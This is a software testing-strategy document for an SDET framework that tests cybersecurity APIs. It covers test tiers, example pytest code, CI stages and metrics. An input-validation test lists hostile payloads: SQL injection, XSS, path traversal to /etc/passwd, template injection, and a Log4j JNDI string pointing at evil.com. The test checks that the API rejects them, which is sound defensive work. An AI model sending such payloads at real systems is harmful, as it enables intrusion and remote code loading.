

# Netskope SDET Framework - Testing Strategy

##  Executive Summary

This document outlines the comprehensive testing strategy for the Netskope SDET Framework, designed to ensure robust, secure, and scalable cybersecurity API testing across multiple environments.

##  Testing Objectives

### **Primary Objectives**
1. **Security Assurance**: Validate all security controls and compliance requirements
2. **API Reliability**: Ensure 99.9% API availability and performance
3. **Data Integrity**: Protect sensitive data throughout the testing lifecycle
4. **Scalability Validation**: Verify system performance under various load conditions
5. **Compliance Verification**: Ensure adherence to SOC2, GDPR, PCI DSS standards

### **Secondary Objectives**
1. **Developer Productivity**: Reduce testing feedback time by 70%
2. **Cost Optimization**: Minimize infrastructure costs while maximizing coverage
3. **Risk Mitigation**: Early detection of security vulnerabilities and performance issues
4. **Quality Metrics**: Maintain >95% test coverage and <1% false positive rate

##  Testing Framework Architecture

### **Multi-Environment Testing Strategy**



### **Environment-Specific Testing**

| Environment | Test Types | Duration | Frequency | Purpose |
|-------------|------------|----------|-----------|---------|
| **Mock** | Unit, Component | <5 min | Every commit | Fast feedback |
| **Local** | Integration, API | <15 min | Every PR | Service validation |
| **Integration** | E2E, Security | <30 min | Daily | Workflow validation |
| **Staging** | Performance, Load | <60 min | Weekly | Production readiness |
| **Production** | Monitoring, Health | <5 min | Continuous | Live validation |

##  Test Categories & Strategies

### **1. Unit Testing Strategy**

#### **Scope & Coverage**
- **Target Coverage**: >90% code coverage
- **Focus Areas**: Business logic, data transformations, utility functions
- **Test Environment**: Mock services only
- **Execution Time**: <1 second per test

#### **Test Patterns**
```python
# Example: Policy Rule Testing
class TestPolicyRules:
    def test_dlp_rule_evaluation(self):
        # Given: A DLP policy and test content
        policy = DLPPolicy(patterns=["SSN", "Credit Card"])
        content = "User SSN: 123-45-6789"
        
        # When: Evaluating content against policy
        result = policy.evaluate(content)
        
        # Then: Should detect violation
        assert result.violation_detected == True
        assert result.violation_type == "SSN"
        assert result.risk_score >= 80
```

#### **Mock Strategy**
- **Service Mocking**: All external dependencies mocked
- **Data Mocking**: Synthetic data with realistic patterns
- **Behavior Mocking**: Predictable responses for edge cases

### **2. Integration Testing Strategy**

#### **Scope & Coverage**
- **Target Coverage**: >80% integration paths
- **Focus Areas**: Service interactions, data flows, API contracts
- **Test Environment**: Local Docker services
- **Execution Time**: <10 seconds per test

#### **Test Patterns**
```python
# Example: Service Integration Testing
class TestServiceIntegration:
    def test_event_processing_pipeline(self):
        # Given: A security event
        event = SecurityEvent(
            type="login_attempt",
            user="john.doe",
            source_ip="192.168.1.100"
        )
        
        # When: Processing through pipeline
        kafka_producer.send("security_events", event)
        processed_event = event_processor.process()
        stored_event = mongodb.events.find_one({"id": event.id})
        cached_result = redis.get(f"event:{event.id}")
        
        # Then: Event should be processed and stored
        assert processed_event.risk_score is not None
        assert stored_event is not None
        assert cached_result is not None
```

#### **Service Dependencies**
- **Redis**: Caching and session management
- **Kafka**: Event streaming and message processing
- **MongoDB**: Data persistence and querying
- **LocalStack**: AWS service simulation

### **DLP Testing (Data Loss Prevention)**

This project includes a focused DLP test-suite that validates content inspection, policy enforcement, and logging behavior.

- Location: `tests/dlp/`
- Primary scenarios:
    - Pattern-based blocking (SSN, CreditCard)
    - Policy mutation and runtime decision changes
    - Large payload detection
    - Integration logging into the test DB client
- Running locally: `python -m pytest tests/dlp -q`
- Notes: The DLP suite uses `tests/dlp/conftest.py` to force `TESTING_MODE=mock` by default. For integration testing against real services, set `TESTING_MODE=local` and ensure `docker-compose.local.yml` services are running.

See: [DLP Testing](dlp_testing.md) for full details and extension guidance.

### **3. End-to-End Testing Strategy**

#### **Scope & Coverage**
- **Target Coverage**: >95% critical user journeys
- **Focus Areas**: Complete workflows, user scenarios, business processes
- **Test Environment**: Integration environment with real services
- **Execution Time**: <60 seconds per test

#### **Test Scenarios**
```python
# Example: Complete Security Workflow
class TestSecurityWorkflow:
    def test_threat_detection_and_response(self):
        # Given: A user with suspicious activity
        user = create_test_user("suspicious_user")
        
        # When: User performs multiple risky actions
        login_from_new_location(user, "suspicious_country")
        access_sensitive_data(user, "confidential_files")
        attempt_data_exfiltration(user, "large_file_download")
        
        # Then: System should detect and respond
        alerts = get_security_alerts(user.id)
        assert len(alerts) >= 2
        assert user.risk_score > 80
        assert user.account_status == "suspended"
        
        # And: Incident should be created
        incident = get_security_incident(user.id)
        assert incident.severity == "high"
        assert incident.status == "investigating"
```

### **4. Performance Testing Strategy**

#### **Load Testing**
- **Objective**: Validate system performance under expected load
- **Metrics**: Response time, throughput, resource utilization
- **Tools**: JMeter, Locust, K6
- **Thresholds**:
  - API response time: <200ms (95th percentile)
  - Throughput: >1000 requests/second
  - Error rate: <0.1%

```python
# Example: Load Test Configuration
LOAD_TEST_CONFIG = {
    "scenarios": {
        "api_load_test": {
            "users": 100,
            "spawn_rate": 10,
            "duration": "10m",
            "endpoints": [
                {"path": "/api/v2/events", "weight": 40},
                {"path": "/api/v2/policies", "weight": 30},
                {"path": "/api/v2/users", "weight": 20},
                {"path": "/api/v2/reports", "weight": 10}
            ]
        }
    }
}
```

#### **Stress Testing**
- **Objective**: Determine system breaking points
- **Approach**: Gradually increase load until failure
- **Recovery Testing**: Validate system recovery after stress

#### **Volume Testing**
- **Objective**: Validate performance with large datasets
- **Test Cases**: 
  - 1M+ security events processing
  - 100K+ user policy evaluations
  - 10TB+ log data analysis

### **5. Security Testing Strategy**

#### **Authentication & Authorization Testing**
```python
class TestSecurityControls:
    def test_jwt_token_validation(self):
        # Test expired tokens
        expired_token = create_expired_jwt()
        response = api_client.get("/api/v2/events", 
                                headers={"Authorization": f"Bearer {expired_token}"})
        assert response.status_code == 401
        
        # Test tampered tokens
        tampered_token = tamper_jwt_signature(valid_token)
        response = api_client.get("/api/v2/events",
                                headers={"Authorization": f"Bearer {tampered_token}"})
        assert response.status_code == 401
        
        # Test role-based access
        user_token = create_user_token(role="user")
        response = api_client.get("/api/v2/admin/users",
                                headers={"Authorization": f"Bearer {user_token}"})
        assert response.status_code == 403
```

#### **Input Validation Testing**
```python
class TestInputValidation:
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE users; --",
        "<script>alert('xss')</script>",
        "../../../../etc/passwd",
        "{{7*7}}",  # Template injection
        "${jndi:ldap://evil.com/a}"  # Log4j injection
    ])
    def test_sql_injection_prevention(self, malicious_input):
        response = api_client.post("/api/v2/search", 
                                 json={"query": malicious_input})
        assert response.status_code in [400, 422]  # Bad request or validation error
        assert "error" in response.json()
```

#### **Data Protection Testing**
```python
class TestDataProtection:
    def test_pii_data_masking(self):
        # Given: User data with PII
        user_data = {
            "name": "John Doe",
            "ssn": "123-45-6789",
            "email": "john.doe@company.com"
        }
        
        # When: Storing and retrieving data
        user_id = create_user(user_data)
        retrieved_data = get_user_for_audit(user_id)
        
        # Then: PII should be masked
        assert retrieved_data["ssn"] == "***-**-6789"
        assert retrieved_data["email"] == "j***@company.com"
```

### **6. Compliance Testing Strategy**

#### **SOC2 Type II Controls**
```python
class TestSOC2Compliance:
    def test_access_logging(self):
        # All access attempts must be logged
        user_token = authenticate_user("test_user")
        api_client.get("/api/v2/sensitive-data", 
                      headers={"Authorization": f"Bearer {user_token}"})
        
        # Verify access log entry
        access_logs = get_access_logs(user_id="test_user")
        assert len(access_logs) > 0
        assert access_logs[0]["resource"] == "/api/v2/sensitive-data"
        assert access_logs[0]["timestamp"] is not None
    
    def test_data_retention_policy(self):
        # Data older than retention period should be purged
        old_event = create_security_event(
            timestamp=datetime.now() - timedelta(days=366)
        )
        
        # Run retention policy
        run_data_retention_job()
        
        # Verify data is purged
        retrieved_event = get_security_event(old_event.id)
        assert retrieved_event is None
```

#### **GDPR Compliance**
```python
class TestGDPRCompliance:
    def test_right_to_be_forgotten(self):
        # User requests data deletion
        user_id = create_test_user()
        deletion_request = submit_deletion_request(user_id)
        
        # Process deletion request
        process_deletion_request(deletion_request.id)
        
        # Verify all user data is removed
        assert get_user(user_id) is None
        assert get_user_events(user_id) == []
        assert get_user_logs(user_id) == []
    
    def test_data_portability(self):
        # User requests data export
        user_id = create_test_user_with_data()
        export_request = submit_export_request(user_id)
        
        # Process export request
        export_data = process_export_request(export_request.id)
        
        # Verify export completeness
        assert "personal_data" in export_data
        assert "activity_logs" in export_data
        assert "preferences" in export_data
```

##  Test Data Management Strategy

### **Test Data Categories**

#### **1. Synthetic Data (Mock/Local)**
```python
# Faker-based data generation
class TestDataFactory:
    @staticmethod
    def create_user_data():
        fake = Faker()
        return {
            "username": fake.user_name(),
            "email": fake.email(),
            "department": fake.random_element(["Engineering", "Sales", "HR"]),
            "risk_score": fake.random_int(1, 100)
        }
    
    @staticmethod
    def create_security_event():
        fake = Faker()
        return {
            "event_type": fake.random_element(["login", "file_access", "api_call"]),
            "source_ip": fake.ipv4(),
            "timestamp": fake.date_time_this_year(),
            "user_agent": fake.user_agent()
        }
```

#### **2. Anonymized Production Data (Integration)**
```python
# Data anonymization pipeline
class DataAnonymizer:
    def anonymize_user_data(self, production_data):
        return {
            "id": production_data["id"],  # Keep for referential integrity
            "username": self.hash_pii(production_data["username"]),
            "email": self.mask_email(production_data["email"]),
            "department": production_data["department"],  # Non-PII
            "created_at": production_data["created_at"]
        }
```

### **Data Lifecycle Management**

#### **Data Creation**
- **Automated**: Generated during test setup
- **Seeded**: Pre-created datasets for consistent testing
- **On-demand**: Created during test execution

#### **Data Isolation**
- **Namespace separation**: Environment-specific prefixes
- **Database isolation**: Separate databases per environment
- **Cleanup policies**: Automatic data purging

#### **Data Refresh**
- **Mock**: Regenerated on each test run
- **Local**: Weekly refresh from anonymized production data
- **Integration**: Daily refresh with latest anonymized data

##  CI/CD Integration Strategy

### **Pipeline Stages**

```yaml
# .github/workflows/test-pipeline.yml
name: SDET Test Pipeline

on: [push, pull_request]

jobs:
  unit-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - name: Run Unit Tests (Mock)
        run: |
          python start_mock_mode.py &
          pytest tests/unit/ -v --cov=tests --cov-report=xml
          
  integration-tests:
    needs: unit-tests
    runs-on: ubuntu-latest
    steps:
      - name: Start Local Services
        run: docker-compose -f docker-compose.local.yml up -d
      - name: Run Integration Tests
        run: pytest tests/integration/ -v
        
  security-tests:
    needs: integration-tests
    runs-on: ubuntu-latest
    steps:
      - name: Run Security Scans
        run: |
          bandit -r tests/
          safety check
          pytest tests/security/ -v
          
  e2e-tests:
    needs: security-tests
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Deploy to Integration Environment
        run: kubectl apply -f k8s/integration/
      - name: Run E2E Tests
        run: pytest tests/e2e/ -v --html=reports/e2e-report.html
```

### **Quality Gates**

#### **Commit Level**
- Unit tests pass (100%)
- Code coverage >90%
- Static analysis clean
- Security scan clean

#### **PR Level**
- Integration tests pass (100%)
- Performance regression <5%
- Security tests pass (100%)
- Code review approved

#### **Release Level**
- E2E tests pass (100%)
- Performance tests pass
- Security compliance verified
- Documentation updated

##  Metrics & Monitoring Strategy

### **Test Metrics**

#### **Quality Metrics**
```python
TEST_QUALITY_METRICS = {
    "coverage": {
        "unit_tests": ">90%",
        "integration_tests": ">80%",
        "e2e_tests": ">95%"
    },
    "reliability": {
        "flaky_test_rate": "<1%",
        "test_failure_rate": "<5%",
        "false_positive_rate": "<1%"
    },
    "performance": {
        "unit_test_duration": "<5min",
        "integration_test_duration": "<15min",
        "e2e_test_duration": "<30min"
    }
}
```

#### **Security Metrics**
```python
SECURITY_METRICS = {
    "vulnerability_detection": {
        "critical_vulnerabilities": "0",
        "high_vulnerabilities": "<5",
        "security_test_coverage": ">95%"
    },
    "compliance": {
        "soc2_controls_tested": "100%",
        "gdpr_requirements_verified": "100%",
        "pci_controls_validated": "100%"
    }
}
```

### **Alerting Strategy**

#### **Critical Alerts**
- Security test failures
- Production API failures
- Data breach indicators
- Compliance violations

#### **Warning Alerts**
- Performance degradation
- High error rates
- Test flakiness increase
- Resource utilization spikes

##  Continuous Improvement Strategy

### **Test Optimization**
- **Parallel Execution**: Reduce test execution time
- **Smart Test Selection**: Run only affected tests
- **Test Result Caching**: Avoid redundant test runs
- **Flaky Test Detection**: Identify and fix unreliable tests

### **Framework Evolution**
- **Regular Reviews**: Monthly framework assessment
- **Tool Evaluation**: Quarterly tool stack review
- **Best Practice Updates**: Continuous industry alignment
- **Performance Tuning**: Ongoing optimization efforts

### **Knowledge Sharing**
- **Documentation**: Comprehensive test documentation
- **Training**: Regular team training sessions
- **Best Practices**: Shared testing guidelines
- **Lessons Learned**: Post-incident reviews and improvements

---

##  Success Criteria

### **Short-term Goals (3 months)**
-  90% unit test coverage
-  <5 minute feedback loop
-  Zero critical security vulnerabilities
-  95% test reliability

### **Medium-term Goals (6 months)**
-  Full CI/CD integration
-  Automated performance regression detection
-  Complete compliance test coverage
-  99.9% API availability

### **Long-term Goals (12 months)**
-  Industry-leading security posture
-  50% reduction in production incidents
-  30% improvement in developer productivity
-  Full regulatory compliance automation

This comprehensive testing strategy ensures robust, secure, and scalable cybersecurity API testing while maintaining high quality standards and regulatory compliance.